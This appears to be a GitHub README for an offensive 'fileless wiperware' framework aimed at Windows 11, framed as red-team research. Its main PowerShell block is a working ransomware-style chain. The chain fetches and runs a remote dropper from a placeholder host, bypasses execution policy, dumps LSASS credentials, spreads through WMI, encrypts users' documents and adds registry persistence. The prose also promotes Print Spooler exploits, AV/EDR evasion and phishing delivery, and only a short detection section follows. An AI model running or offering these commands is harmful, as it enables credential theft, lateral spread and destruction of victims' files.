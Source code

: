 
# Overview:

![Demo Screenshot](https://github.com/user-attachments/assets/f93a65bd-d000-41f0-a941-631f047417e4)

---
## 🔒 Project NSFW: Net Sharing Fileless Wiperware

### Executive Summary

**Project NSFW** is a red/purple team research effort that simulates a **fileless, polymorphic malware** framework tailored for **Windows 11** systems. This framework demonstrates the feasibility of high-impact cyberattacks using only in-memory payloads and built-in system binaries (LOLBins). Inspired by NotPetya-style threats, the project focuses on abusing Windows **print spooler services** for lateral movement and privilege escalation, while emphasizing real-world detection, mitigation, and offensive security education.

---

This repo helps simulate a realistic adversary kill chain using MITRE ATT&CK techniques, entirely fileless and stealthy in nature.

---

## 🔓 Fileless Ransomware Lab Example (LOLBins in Action)

> **Warning:** This is a synthetic simulation for red team research.  
> **Never run outside of an isolated test lab.**

```powershell
# Initial Access (T1190) - Load dropper via web
IEX(New-Object Net.WebClient).DownloadString("http://malicious.com/dropper.ps1")

# Execution (T1059.001) - Decode & load payload
$bytes = [System.Convert]::FromBase64String("[Base64Payload]") 
[System.Reflection.Assembly]::Load($bytes)

# Privilege Escalation (T1548)
Start-Process powershell -Args "-ExecutionPolicy Bypass -File C:\Temp\elevate.ps1" -Verb RunAs

# Credential Access (T1003.001)
rundll32.exe C:\Windows\System32\comsvcs.dll, MiniDump (Get-Process lsass).Id C:\Temp\lsass.dmp full

# Lateral Movement (T1021.001)
wmic /node:targetPC process call create "powershell.exe -File \\share\payload.ps1"

# File Encryption (T1486)
$files = Get-ChildItem -Path "C:\Users\*\Documents" -Include *.docx,*.pdf -Recurse
foreach ($file in $files) {
  $data = Get-Content $file.FullName -Raw
  $aes = New-Object System.Security.Cryptography.AesManaged
  $aes.Key = [Text.Encoding]::UTF8.GetBytes("RANDOM-GEN-KEY-1234567890123456")
  $aes.IV = New-Object byte[] 16
  $enc = $aes.CreateEncryptor().TransformFinalBlock([Text.Encoding]::UTF8.GetBytes($data), 0, $data.Length)
  Set-Content -Path $file.FullName -Value ([Convert]::ToBase64String($enc))
}

# Persistence (T1547.001)
Set-ItemProperty "HKCU:\Software\Microsoft\Windows\CurrentVersion\Run" -Name "ransomware" -Value "powershell -File C:\Temp\persist.ps1"
````
### 🧠 Core Concepts

#### **Net Sharing (Initial Access & Wormability)**

* Exploits Windows print and file sharing via `net.exe`, `net use`, and related LOLBins.
* Implements **PrintNightmare** and **HiveNightmare** vulnerabilities (`CVE-2021-34527`, `CVE-2021-36934`) for privilege escalation and self-propagation.
* Supports automated exploitation via Metasploit (`exploit/windows/printnightmare`) or scripted remote execution using PowerShell/WMI.

#### **Fileless Execution (Stealth & Evasion)**

* All payloads execute from memory using trusted binaries:

  * `rundll32.exe`, `regsvr32.exe`, `mshta.exe`, `cmdkey.exe`, `wmic.exe`
* Avoids writing to disk to minimize forensics footprint and evade AV/EDR tools.
* Embeds shellcode payloads via `.jpg`, `.lnk`, or `.ps1` files for phishing delivery.

#### **Wiper Logic (Final Stage Payload)**

* Final-stage behavior mimics ransomware but prioritizes **destruction over extortion**.
* Uses **DiskCryptor-based encryption** integrated with **Azure AI-powered polymorphic logic** ("Copycat") for code mutation and anomaly bypass.
* Supports optional ransom printout via Windows printer services.

---

### 🧩 Attack Flow Overview

1. **Initial Access** – Spear phishing with embedded `.jpg` or `.lnk`.
2. **Exploit** – Use of Print Spooler or Registry CVEs.
3. **Lateral Movement** – `net use`, WMI, PowerShell remoting.
4. **Persistence** – LOLBins-based scheduled tasks or registry keys.
5. **Payload Execution** – In-memory DLL shellcode injection via Donut/sRDI.
6. **Impact** – NTFS metadata destruction, ransom notes, service disruption.

---

### 🎯 Objectives

| Red Team (Adversary Simulation)         | Blue Team (Defender Insight)                 |
| --------------------------------------- | -------------------------------------------- |
| Simulate polymorphic worm-like malware  | Build detection for fileless attack chains   |
| Demonstrate AV/EDR evasion with LOLBins | Tune threat hunting based on ATT\&CK mapping |
| Trigger controlled system failure       | Apply Sigma/Sysmon for real-time monitoring  |

---

### 🔍 Detection & Mitigation Strategy

* Aligns with MITRE ATT\&CK tactics:

  * `T1055` (Process Injection), `T1562` (Defense Evasion), `T1021` (Remote Services)
* Suggested detection sources:

  * **Sysmon**, **ELK**, **Splunk**, **Sigma Rules**
* Watch for:

  * Spooler restarts, `rundll32` or `regsvr32` anomalies
  * Driver or service installs
  * Memory entropy changes

---

### ⚠️ Legal Disclaimer

All content and code referenced in this project are strictly for **educational** and **authorized penetration testing** purposes. Testing must occur only within **lab environments** and with **explicit permission**. Unauthorized use may violate local or international laws.

---

## 🧭 Additional Resources

* [LOLOL Farm – LOLBin Playground](https://lolol.farm/)
* [LOLGEN – Generate LOLBin Chains](https://lolgen.hdks.org/)
* [MITRE ATT\&CK: S0697](https://attack.mitre.org/software/S0697/)
* [DLL Injection Primer](https://www.crow.rip/crows-nest/mal/dev/inject/dll-injection)
* [Print Spooler Exploit Chain](https://itm4n.github.io/printnightmare-not-over/)
* [Fileless Malware – Wikipedia](https://en.wikipedia.org/wiki/Fileless_malware)

---

### 📚 Print Spooler CVEs

* [SysNightmare](https://github.com/GossiTheDog/SystemNightmare)
* [PrintSpoofer (Original)](https://github.com/itm4n/PrintSpoofer/tree/master)
* [PrintSpoofer 2](https://github.com/dievus/printspoofer)
* [HiveNightmare](https://github.com/GossiTheDog/HiveNightmare)





